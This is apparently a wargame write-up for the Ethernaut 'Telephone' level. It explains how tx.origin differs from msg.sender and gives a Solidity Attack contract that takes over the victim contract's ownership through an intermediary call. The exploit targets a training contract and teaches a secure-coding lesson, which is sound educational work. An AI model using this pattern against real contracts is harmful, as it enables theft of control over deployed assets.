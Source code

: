 ## 5\. Telephone

The lesson here is to never confuse `tx.origin` and `msg.sender`. The former refers to the external account which initiated the transaction (no matter how many subsequent, calls there have been), while the latter refers to the immediate caller.

For example, in the call User -> A -> B -> C, for contract C, the `tx.origin` is the User (EOA) while the `msg.sender` is the contract B.

#### Solution

The solution chosen was to write a new contract and call `changeOwner` from it. This way, for the victim contract, `tx.origin` will be different from `msg.sender`, thereby fulfilling the condition.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

// Interface of the Victim contract; the function we want to call
interface ITelephone {
    function changeOwner(address _owner) external;
}

contract Attack {

    address Telephone;
    ITelephone telephone;

    constructor() {
        // Victim address
        Telephone = 0x6D636F14B3940591295F690A848d80D66a0F7786;
        // Grabbing victim instance through the interface
        telephone = ITelephone(Telephone);
    }

    // Function which calls the victim's function. Called by and EOA. Thereby, tx.origin is different from msg.sender
    function attack() public {
        telephone.changeOwner(0xecA5bA71FC055AF7FCdFb5755C575B67Ac48EcDF);
    }

}
```